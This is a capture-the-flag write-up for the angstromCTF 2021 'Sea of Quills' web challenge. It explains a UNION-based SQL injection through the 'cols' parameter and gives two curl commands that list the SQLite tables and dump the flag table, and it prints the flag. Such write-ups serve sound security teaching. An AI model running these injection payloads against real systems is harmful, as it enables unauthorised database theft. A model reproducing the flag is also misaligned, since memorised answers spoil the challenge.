 #### Challenge:

Come check out our [finest selection of quills](https://seaofquills.2021.chall.actf.co/)!

[app.rb](./app.rb ":ignore")

---

#### Solution:

We are given a web site and `Ruby` source code with reference `SQLite DB` that makes it run. There is a filter for special characters on the `cols` parameter, but using `UNION` based SQL injection we can list the tables and dump the table containing the flag.

```bash
curl 'https://seaofquills.2021.chall.actf.co/quills' --data-raw 'limit=1000&offset=0&cols=type,name,sql FROM sqlite_master UNION SELECT url,desc,name'   --compressed ;

curl 'https://seaofquills.2021.chall.actf.co/quills' --data-raw 'limit=1000&offset=0&cols=NULL,flag,NULL FROM flagtable UNION SELECT url,desc,name'   --compressed ;
```

---

<details><summary>FLAG:</summary>

```text
actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df}
```

</details>
<br/>
